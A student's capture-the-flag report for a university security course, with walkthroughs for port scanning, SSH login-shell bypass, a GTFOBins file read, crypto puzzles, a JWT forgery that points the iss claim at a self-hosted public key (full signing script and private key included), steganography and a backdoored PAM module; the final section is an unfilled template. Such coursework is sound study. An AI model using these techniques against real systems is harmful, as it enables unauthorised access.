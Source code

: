 <div style="display: flex; flex-direction: column; justify-content: center; align-items: center; height: 100vh;">
  
  <h2>CITS1003 Project Report</h2>
  
  <p>Student ID: Student 24059081</p>
  <p>Student Name: Ziying Zhou</p>

</div>

# Part 1 - Linux and Networking
## Emu Hack #1 - Backdoored
### Step 1
Use NMAP to scan the specified port range of the server to determine which port has open services.
Step 1: Use nmap to scan ports
Firstly, we will use nmap to scan the port range 61000 to 61500 on IP address 34.116.68.59. Install it with command:
```
sudo apt-get install nmap
```
Scan specified port range
Scan the specified port range using the following command:
```
nmap -p 61000-61500 34.116.68.59 -Pn
```
 `-p` : option is used to specify the port range.

 `- Pn`:  option is used to skip host probing (this option can be used if you encounter issues with unresponsive hosts).

 Then we got this:
 ```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-18 08:16 EDT
Nmap scan report for 59.68.116.34.bc.googleusercontent.com (34.116.68.59)
Host is up (0.063s latency).
Not shown: 500 filtered tcp ports (no-response)
PORT      STATE SERVICE
61337/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 60.90 seconds
```
### Step 2
Use Netcat to send TCP messages to the discovered open port and verify which port is the backdoor port.
Install netcat with command:
```
sudo apt-get install netcat
```
The port we found is `61337`, so we can use this command to send the message:
```
echo "EMU" | nc 34.116.68.59 61337
```
We got what we need now.
```
 ______        ___   _ _____ ____    _                  
|  _ \ \      / / \ | | ____|  _ \  | |__  _   _        
| |_) \ \ /\ / /|  \| |  _| | | | | | '_ \| | | |       
|  __/ \ V  V / | |\  | |___| |_| | | |_) | |_| |       
|_|     \_/\_/  |_| \_|_____|____/  |_.__/ \__, |       
    _                             _____    |___/        
   / \   _ __   __ _ _ __ _   _  | ____|_ __ ___  _   _ 
  / _ \ | '_ \ / _` | '__| | | | |  _| | '_ ` _ \| | | |
 / ___ \| | | | (_| | |  | |_| | | |___| | | | | | |_| |
/_/   \_\_| |_|\__, |_|   \__, | |_____|_| |_| |_|\__,_|
               |___/      |___/                         

Did you really think you would find our backdoor so easily? :P

Good effort though, here's a flag for your attempt: UWA{4dvanC3d_p0r7_5sc4nN1nG?1!?1}
```
#### Flag Found
```bash
UWA{4dvanC3d_p0r7_5sc4nN1nG?1!?1}
```

## Emu Hack #2 - Git Gud
### Step 1
#### Check Git server and clone repository ：
Install the `git`:
```
sudo apt-get install git
```
Clone Git repository
Run the following command to clone a Git repository named emu:
```
git clone http://34.116.68.59:8000/emu.git
```
```
┌──(kali㉿kali)-[~]
└─$ git clone http://34.116.68.59:8000/emu.git
Cloning into 'emu'...
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (3/3), done.
```
### Step 2
#### Check the cloned repository：
Enter the cloned warehouse repository with command `cd emu`. Then list all the file with command `ls`.
There is a text file call `README.txt` So we need to catch the message with `cat README.txt`.
```
┌──(kali㉿kali)-[~/emu]
└─$ cat README.txt
UWA{N()w_y0U_kN0W_40w_2_u53_g17!1!!}
--------------------------------------------------

To Angry Emu hacker,

As per our agreement, I have set up some SSH credentials for you to access our server:

username: emu001
password: feathers4life24

To make sure only us birbs can get in I set a login shell to stop pesky hoomans getting in. Just do that SSH trick I taught you about to get in.

Delete this message after you read it!

Best regards,
Mr. X
```
#### Flag Found
```bash
UWA{N()w_y0U_kN0W_40w_2_u53_g17!1!!}

```

## Emu Hack #3 - SSH Tricks
### Step 1
#### Run commands directly using SSH：
As we got the username and password from last question:
```
username: emu001
password: feathers4life24
```
Try using SSH to directly execute commands on a remote host, such as listing the contents of the/home/emu001 directory:
```
ssh -p 2022 emu001@34.116.68.59 "ls /home/emu001"
```
Then we got:
```
note_to_angry_emu_hacker.txt
top_secret.png
```
Then try to copy it to local folder:
```
scp -P 2022 emu001@34.116.68.59:/home/emu001/* ./
```
```
┌──(kali㉿kali)-[~/emu]
└─$ scp -P 2022 emu001@34.116.68.59:/home/emu001/* ./
emu001@34.116.68.59's password: 
note_to_angry_emu_hacker.txt                        100%  313     2.5KB/s   00:00    
top_secret.png                                      100%  475KB 912.0KB/s   00:00  
```
Obviously, `top_secret.png` is what we are looking for. Now open it from where we just downloaded.
#### Flag Found
```bash
UWA{how_did_u_get_pass_that_login_shell?????}
```

## Emu Hack #4 - Git Gud or GTFO Bin
### Step 1
#### Connect to target server:
Because `python3 -c 'import pty; pty.spawn("/bin/bash")'` didn't work on my computer, I used this instead:
```
ssh -t -p 2022 emu001@34.116.68.59 "bash -i"
```
`-t`: This option forces the allocation of a pseudo terminal. For certain commands, especially those that require user interaction, such as bash, this option is necessary. It allows us to run interactive shells or other commands in remote sessions.
`"bash - i"`: This section is the command to be executed after successfully connecting to the remote server. In this case, we need to launch an interactive bash shell- The i option represents an interactive shell.
### Step 2
#### Run command:
`diff`:  is a subcommand of git used to compare the differences between two files or directories.
The diff command here compares the contents of two files and outputs their differences.

`--no-index`: The `--no-index` option tells the git diff command to compare two specified files instead of assuming they are in a Git repository. It allows us to compare two regular files without the need for them to be in the Git repository.

`/dev/null`: is a special file that discards all data written to it, and reading it always returns EOF.
In this command, we compare `/dev/null` as an empty file with flag4.txt.

`/home/mr_x/flag4.txt`: This is the path to the target file we want to view.
Then we got:
```
diff --git a/home/mr_x/flag4.txt b/home/mr_x/flag4.txt
new file mode 100644
index 0000000..a0c60be
--- /dev/null
+++ b/home/mr_x/flag4.txt
@@ -0,0 +1 @@
+UWA{i_G0T_g1t_g0oD_4Nd_gTf0_B1N5d_InT0_yR_aCcOunT!!1}
\ No newline at end of file
```
#### Flag Found
```bash
UWA{i_G0T_g1t_g0oD_4Nd_gTf0_B1N5d_InT0_yR_aCcOunT!!1}
```

# Part 2 - Cryptography
## Advanced Emu Standard
### Step 1
This scenario describes the use of AES-128 encryption algorithm to encrypt data in ECB (Electronic Codebook) mode.
Because AES-128 operates with a block size of 16 bytes. The website can only encrypt 31 bytes of data at a time. However, command `deactivate_special_procedure_123` has 32 bytes long So I devided this command into two parts both only have 16 bytes of it.
```bash
deactivate_speci
```
```bash
al_procedure_123
```

### Step 2
I put these two command `deactivate_speci` and `al_procedure_123` into Command Encryptor respectively.
Then I gain the ciphertext `3155433d53ed30c89aef89b2e7273924` and `4127efafc809cc1209376d039e0001f1`.
Now put them together.
```bash
3155433d53ed30c89aef89b2e72739244127efafc809cc1209376d039e0001f1
```
### Step 3
Put the cyphertext into Transmit encrypted command and get the flag.
#### Flag Found
```bash
UWA{3CB_i5_bL0cK_Ind3peNd3nt!}
```

## Emu Cook Book
### Step 1
`H4sI` is an identifier that indicates that a string of data is compressed using gzip and encoded as the beginning of Base64 format
At the end of the cyphertext, there are two '=' which is also likely to be Base64. 
So I try to use `From Base64` and `Gunzip` first in Cyberchef.
Then I gain these:
```
00000000%20%2035%2036%2020%2035%2036%2020%2036%2034%2020%2034%2032%2020%2036%2035%2020%2033%20%20%7C56%2056%2064%2042%2065%203%7C%0A00000010%20%2033%2020%2035%2032%2020%2034%2039%2020%2034%2064%2020%2033%2031%2020%20......
```
### Step 2
As we can see above, the text includes special characters like '%' in it. It might be the URL encoding format, so I use `URL Decode`
And it becomes like this:
```
00000000  35 36 20 35 36 20 36 34 20 34 32 20 36 35 20 33  |56 56 64 42 65 3|
00000010  33 20 35 32 20 34 39 20 34 64 20 33 31 20 33 39  |3 52 49 4d 31 39|
......
```
### Step 3
The result we gained from last step is `Hexdump` format, so I use `From Hexdump` in cyberchef, then we obtained a set of hexadecimal numbers.
Easily, use `From Hex` in cyberchef.
Then we have:
```
VVdBe3RIM19lTW9PNV93MUxMX24zVjNyX3NUb1BfZDAxbkdfdEgzNWVfZFZtQl9jMUJyX2NIM2VGX2NoNExsU30=
```
Similarly, it ends with '='. So I assume it is a base64 text and use `From Base64` again.
And we have the flag now.
#### Flag Found
```bash
UWA{tH3_eMoO5_w1LL_n3V3r_sToP_d01nG_tH35e_dVmB_c1Br_cH3eF_ch4LlS}
```

## Emu Casino
### Step 1
#### What is seed?
As we can see from the `filp_coin.py` file, `seed(str(session["round"]) + "_" + session["session_id"])` is the main thing to decide the result.
The seed() function in Python initializes the random number generator with a specific starting point, allowing for reproducible random outcomes.
The seed here is consist of two parts: first one is `session["round"]` which is the round of the game, the second one is `session["session_id"]` which can be found in the cookie.
### Step 2
#### Find the session id:
We can right click on the page `http://34.87.251.234:3000/` and select `inspect`. Then find `Application` and we can see `cookie` on the left panel.
The cookie value we found is:
```
eyJjcmVkaXRzIjoxMCwicm91bmQiOjEsInNlc3Npb25faWQiOiJiYTNlNTJiMTc0M2Y3MzUxOGM4YmEwYzY1YjAzYTliYyJ9.ZkiIpw.pTUdUQa5nkII0zkbM7EBa8RXQY4
```
This is base64 text, so we can decode it through CyberChef: `https://cyberchef.io/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)`.
CyberChef is a web-based tool for encoding, decoding, encrypting, decrypting, and analyzing data through a wide array of operations.

After we use `From Base64` , we got:
```
{"credits":10,"round":1,"session_id":"ba3e52b1743f73518c8ba0c65b03a9bc"}fH.§
SQÕ.k.ä .3.³;..¼Et.ä
```
So the session id is `ba3e52b1743f73518c8ba0c65b03a9bc`.
### Step 3
#### Use `solution.py`:
As the solution provided:
```

def flip_coin():
    # Change this line
    session_id = ""
    # Change this line
    round = 0

    seed(str(round) + "_" + session_id)

    print(choice(["tails", "heads"]))
```
Only thing we need to do is filling the session id and round number in it and we will get the prediction.
#### Flag Found
```bash
UWA{R0LLl111Llli1iNg_1N_C4$$$$h!11!}
```

## EWT
### Step 1
#### Find the flaw:
Open the `website.js` file, is easily to find the code below:
```
if (signingAlgo === "RS256") {
        // Grab where the RS256 public key URL from the "iss" claim in the JWT body
        // We currently haven't figured out how to sign our own RS256 JWTs yet...
        const issuerUrl = decodedBody.iss;

        // Make sure those hoomans aren't hacking with something like file://
        const regExp = new RegExp("^https?://");
        if (!regExp.test(issuerUrl)) {
            throw Error("invalid URL in iss claim");
        }
        
        // Should be fine to download the public key
        key = await downloadFromUrl(issuerUrl);
    }
```
In the comment, it reveals that EMU didn't use RS256 to sign their JWT. So we can use a JWT signed with RS256 to bypass the verification.
### Step 2
#### How is the JWT consist of:
JWT (JSON Web Token) is a compact, URL-safe means of representing claims to be transferred between two parties, commonly used for authentication and information exchange in web applications.
As we can find this JWT in site `http://34.87.251.234:3002/` :
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InBlYXNhbnQtaG9vbWFuIiwiaWF0IjoxNzE2MDMwNTMzfQ.AXthaVqinWUo9K0DAWdzOyq-KL2H3_09GQsPw7RngrY
```
Now decode it through Cyberchef to look at the structure.
```
{"alg":"HS256","typ":"JWT"}{"username":"peasant-hooman","iat":1716030533}..¶..ª)ÖR.JÐ0.w3²¨¢ö.}=...Ã´g.¶
```
This JWT is signed with HS256 algorithm. Still in the `website.js`, a comment: ` // If the username is "superior-emu" in the JWT then give them the pressie` replies that we can use username:`superior-emu` to sign the JWT. Then how?
### Step 3
#### Create the new JWT:
To force the emu download our public key signed by RS256, we need to create an URL where can be read by emu.
Using CyberChef, `Generate RSA Key Pair` can provide a pair of RSA key.
```
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDWJNveamCYETN8BeTUxHL8AOGs
Kc0YqlYtpUqGQtMAGFe4FpDg+/zXgLd654K6bderJxVVd7SvZEU66Uz+TFpAPlxc
MO72l4bsTbSuNQtuqsDT6s5nRTXX1PbruY+FJfxB0KjrYOk47xqtI/hDT0NJn5WL
uQPL30p13CJR7LzI3wIDAQAB
-----END PUBLIC KEY-----

-----BEGIN RSA PRIVATE KEY-----
MIICXQIBAAKBgQDWJNveamCYETN8BeTUxHL8AOGsKc0YqlYtpUqGQtMAGFe4FpDg
+/zXgLd654K6bderJxVVd7SvZEU66Uz+TFpAPlxcMO72l4bsTbSuNQtuqsDT6s5n
RTXX1PbruY+FJfxB0KjrYOk47xqtI/hDT0NJn5WLuQPL30p13CJR7LzI3wIDAQAB
AoGANg5s4CrLQmfJLswQFTOX8QxJ61tL9id9hJ0+gEDbIaGDdylfHiQOEdpgtqo9
QlFbCU3e4UnL9yBhJ3tgH6tndmzxercs5DY9a8ZOx+i7hHgM2y+ZpqQ7ywgXe3wt
JqVnro5uKh3u3iYd0BQLBD7niWMZo0dt0IUp+aF05XnZOlUCQQDrjLaXXQSo4reI
WnHkl1+jLKO6o+7uFN4/gEVkS8HolYC0mH5mAkID/UzWT6cq0Jeleoo3U++N3eUR
6sW4cnFLAkEA6Lxi9wSgkuBexcL+XsaoXyakQRT2+AJK/QxwuD6K9XDIRcOeNdIw
XgEzvUwBxXw7C/RsJaba9uI6X9qEUvMePQJAb1jBJ6QtA7jIkYhPtoNoDjaX3y6H
T7xFozb7loHJVCz3/mbnuUjv8/rVS6mzmCWqyeq3U5g18ZYnJuUYOiy/KQJBAMDi
WLbWm+n+kC0ghUaxKBvr35ecs24qIFIGfGkGVI5EEYdYL4f1kmZmYqYRFyq/4gPv
Z63w0mpoZe7JIH/KxBUCQQDIQrF0gBGPLClybl+nu7aFwHP1Rd8UO8J07D7fYDgp
HTJ1KHF6KV9Pi7g0jeTijsOVqlZNZNn90p/XNyEhtWtL
-----END RSA PRIVATE KEY-----
```
We can use website `https://text.is/` to keep the public key. Now we got the URL:`https://text.is/KXRZ8/raw`.
In the context of JWT (JSON Web Tokens), iss stands for "issuer" and is a claim that identifies the principal that issued the JWT.
So we are going to put the URL into iss: iss:"https://text.is/KXRZ8/raw".
By combining all the things we know and put it into a python file(for generating the JWT)
```
import jwt
from datetime import datetime, timedelta

private_key = """-----BEGIN RSA PRIVATE KEY-----
MIICXQIBAAKBgQDWJNveamCYETN8BeTUxHL8AOGsKc0YqlYtpUqGQtMAGFe4FpDg
+/zXgLd654K6bderJxVVd7SvZEU66Uz+TFpAPlxcMO72l4bsTbSuNQtuqsDT6s5n
RTXX1PbruY+FJfxB0KjrYOk47xqtI/hDT0NJn5WLuQPL30p13CJR7LzI3wIDAQAB
AoGANg5s4CrLQmfJLswQFTOX8QxJ61tL9id9hJ0+gEDbIaGDdylfHiQOEdpgtqo9
QlFbCU3e4UnL9yBhJ3tgH6tndmzxercs5DY9a8ZOx+i7hHgM2y+ZpqQ7ywgXe3wt
JqVnro5uKh3u3iYd0BQLBD7niWMZo0dt0IUp+aF05XnZOlUCQQDrjLaXXQSo4reI
WnHkl1+jLKO6o+7uFN4/gEVkS8HolYC0mH5mAkID/UzWT6cq0Jeleoo3U++N3eUR
6sW4cnFLAkEA6Lxi9wSgkuBexcL+XsaoXyakQRT2+AJK/QxwuD6K9XDIRcOeNdIw
XgEzvUwBxXw7C/RsJaba9uI6X9qEUvMePQJAb1jBJ6QtA7jIkYhPtoNoDjaX3y6H
T7xFozb7loHJVCz3/mbnuUjv8/rVS6mzmCWqyeq3U5g18ZYnJuUYOiy/KQJBAMDi
WLbWm+n+kC0ghUaxKBvr35ecs24qIFIGfGkGVI5EEYdYL4f1kmZmYqYRFyq/4gPv
Z63w0mpoZe7JIH/KxBUCQQDIQrF0gBGPLClybl+nu7aFwHP1Rd8UO8J07D7fYDgp
HTJ1KHF6KV9Pi7g0jeTijsOVqlZNZNn90p/XNyEhtWtL
-----END RSA PRIVATE KEY-----"""

payload = {
    'username': 'superior-emu', 
    'iss': 'https://text.is/KXRZ8/raw' 
}
# Sign JWT with RSA256
encoded_jwt = jwt.encode(payload, private_key, algorithm='RS256')
print("Generated JWT:", encoded_jwt)
```
we can obtain:
```
Generated JWT: eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InN1cGVyaW9yLWVtdSIsImlzcyI6Imh0dHBzOi8vdGV4dC5pcy9LWFJaOC9yYXcifQ.OtYLcA-LcQGuWC405HuJxtV5xADgYBM7bL78JlrFMiZcMwq-6w2Br9ZC2u3AqQz9wVhYrZrbI9h0rS_YWC6ExN9SUXCQjNjnT54wudo19xWfqveE82E6Ed_Ir1MCWwHfMb3NvbAWqYdKvmS-Y1PWLypA7siUOC869qcwbz6AZqg
```
Put this JWT into the server.
#### Flag Found
```bash
UWA{w4iT_wHeR3_d1D_u_g1T_d4t_k3y???}
```

# Part 3 - Forensics
## Caffeinated Emus
### Step 1
Picture may embed some metadata. You can use exiftool to extract this information.
Install exiftool:
```
sudo apt-get install exiftool
```
Extract metadata:
```
exiftool /home/kali/loganpaul-emus.png
```
And we got:
```
┌──(kali㉿kali)-[~]
└─$ exiftool /home/kali/loganpaul-emus.png
ExifTool Version Number         : 12.76
File Name                       : loganpaul-emus.png
Directory                       : /home/kali
......
GPS Latitude                    : 31 deg 27' 59.19" S
GPS Longitude                   : 119 deg 29' 0.70" E
GPS Position                    : 31 deg 27' 59.19" S, 119 deg 29' 0.70" E
```
Now we have the location: `-31.466441, 119.483528`.
So we can search it in GoogleMap: `https://www.google.com/maps`.
#### Flag Found
```bash
UWA{Marvel Loch}
```

## Flightless Data
### Step 1
As we can know from the clue, emu used `steghide` to encode their message in the image. So we can decode it with the oppsite way:
Install the `steghide` first:
```
sudo apt install steghide 
```
Look for some help with:
```
steghide --help
```
### Step 2
Save the image from `html` as emufly.jpg.
Now we got what we need:
```
┌──(kali㉿kali)-[~]
└─$ steghide extract -sf /home/kali/emufly.jpg
Enter passphrase: 
wrote extracted data to "secret.txt".
```
`-sf`: Specify a file that contains hidden data.

Now open the secret.txt
```
cat secret.txt
```
#### Flag Found
```bash
UWA{fLigHtL3sS_d4Ta_uNd3r_tH3_r4dAr} 
```

## Ruffled Feathers
### Step 1
#### Using ghex to find the problem:
GHex, short for GNOME Hex Editor, is a desktop application used to edit binary files in hexadecimal format, providing tools to analyze and modify the raw binary content of files visually. 
Download it with command :
```
sudo apt install ghex
```
Then open the pdf file with ghex:
```
ghex /home/kali/topsecret_corrupted.pdf
```
What we can see from the right panel is:

![image](https://github.com/GLRY-M/cits1003/assets/169660884/8b9abe0b-b9a4-49e2-a3fb-002ca9b368a7)

It's a little bit hard to check what's the problem. So we can open a normal pdf file to check the difference.

![image](https://github.com/GLRY-M/cits1003/assets/169660884/54c88605-95ac-4740-9d73-2a71d824ce9d)

What was supposed to be `length` was `Corrupted`.So we can edit this and save it. Now the pdf has the useful content in it.
#### Flag Found
```bash
UWA{uNrUffLed_pDeF}
```


## Emu in the Shell
### Step 1
#### SSH login to server:
Connect to the server via SSH using the provided account information. Using commands:
```
ssh-p 2022 ir-account@34.87.251.234
```
`- p 2022` is the specified port, the username is `ir-account`, and the server address is `34.87.251.234`.  

Find and check the PAM module:
Once logged in, we need to check the files in the `/lib/x86_64 Linux gnu/security` directory to find any recently modified PAM modules. We can use the following command to view the modification time of a file:
```
ls lt/lib/x86_64 Linux gnu/security
```
To find the file be changed by EMU, we can go to this blog: `https://github.com/zephrax/linux-pam-backdoor`. Then we will know the file `pam_unix.so` is what er are looking for.
### Step 2
#### Now copy this file to local folder:
Let's copy the files to the `/tmp` directory, which is usually open to all users for write access. Use the following command:
(Ensure that you execute this command in the terminal of the Kali environment)
```
scp -P 2022 ir-account@34.87.251.234:/tmp/pam_unix.so ~/pam_unix.so
```
### Step 3
#### Analyse what did EMU change in pam_unix.so:
Use Ghidra to do it: (download it through: `https://ghidra-sre.org/`).
We also need to download JDK (version need to higher than 17)

Now open Ghidra and import `pam_unix.so` and `analyse` it. As we knew from the clue, there is an account called 'emu-haxor', so we can use this as the keyword to search in the file.

![image](https://github.com/GLRY-M/cits1003/assets/169660884/bf625be8-22b5-4103-a692-4b7ff54ba2f4)

There is an item `pUpPet_m4sT3r`. It probably is the password for emu-haxor account. So log in the emu-haxor now:
```
ssh-p 2022 emu-haxor@34.87.251.234
```
The flag should be in it right now, use `ls` have a look at what's in here and we can find there is a `flag.txt` here -- is what we are looking for:
```
cat flag.txt
```

#### Flag Found
```bash
UWA{tH15_eMu_w1Ll_aLw4y5_b3_iN_uR_sH3lLlLllL!11!}
```

# Part 4 - Vulnerabilities
## Feathered Forum - Part 1
### Step 1
A clear, and detailed description.  

### Step 2
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```

## Feathered Forum - Part 2
### Step 1
A clear, and detailed description.  

### Step 2
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```

## Feathered Forum - Part 3
### Step 1
A clear, and detailed description.  

### Step 2
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```

## Emu Apothecary
### Step 1
A clear, and detailed description.  

### Step 2
### Step X

#### Flag Found
```bash
UWA{xxxxxxxxxx}
```
